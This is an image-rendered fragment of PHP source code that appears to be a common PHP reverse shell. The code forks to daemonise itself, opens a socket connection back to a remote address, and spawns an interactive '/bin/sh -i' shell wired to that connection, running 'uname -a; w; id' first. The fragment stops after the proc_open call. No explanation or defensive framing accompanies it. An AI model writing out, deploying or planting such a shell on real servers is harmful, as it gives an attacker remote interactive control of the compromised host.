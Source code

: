 ```php
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);
```